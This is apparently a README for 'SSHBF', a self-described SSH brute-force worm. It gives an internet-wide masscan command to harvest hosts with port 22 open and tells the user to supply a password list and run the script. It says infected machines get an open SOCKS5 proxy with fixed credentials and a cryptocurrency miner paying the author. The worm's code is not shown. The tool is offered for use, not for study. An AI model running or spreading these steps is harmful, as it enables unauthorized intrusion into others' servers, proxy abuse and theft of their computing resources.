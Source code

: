 # Hello there. I'm SSHBF, an SSH bruteforce worm



## Scan IPS

```$ masscan -p22 --exclude 255.255.255.255 0.0.0.0/0  --rate=1000000000000 | grep port | awk '{ print $6 }' > hosts.txt```

### remember to CTRL+C it after near 5.000 IPs

## Usage:

### Put passwords in passwords.txt

### ```$ python3 main.py```


## What I do?

#### socks5://sshbf:sshbf@{host}:1080 is started
#### and miner on my crypto (donation to coder)
